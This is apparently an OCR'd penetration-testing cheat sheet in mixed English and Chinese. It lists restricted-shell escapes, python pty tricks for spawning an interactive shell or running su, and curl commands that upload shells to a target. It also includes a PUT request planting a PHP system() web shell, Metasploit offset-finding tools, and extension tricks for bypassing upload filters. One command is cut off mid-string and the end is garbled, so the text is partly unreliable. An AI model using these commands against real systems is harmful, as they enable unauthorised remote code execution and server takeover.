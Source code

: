 

### Working with Restricted Shells

\# rare cases

ssh bill@localhost ls -l /tmp



nice /bin/bash

### Interactive TTY Shells

/usr/bin/expect sh



python -c ‘import pty; pty.spawn(“/bin/sh”)’

\# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk

python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","

### 通过WWW上传表格上传/张贴文件

```
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

### 通过PUT谓词将文件放到web主机上

```
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### 生成有效载荷模式和计算偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

### 绕过文件上传限制

file.php -> file.jpg

file.php -> file.php.jpg

file.asp -> file.asp;.jpg

file.gif (contains php code, but starts with string GIF/GIF98)

00%
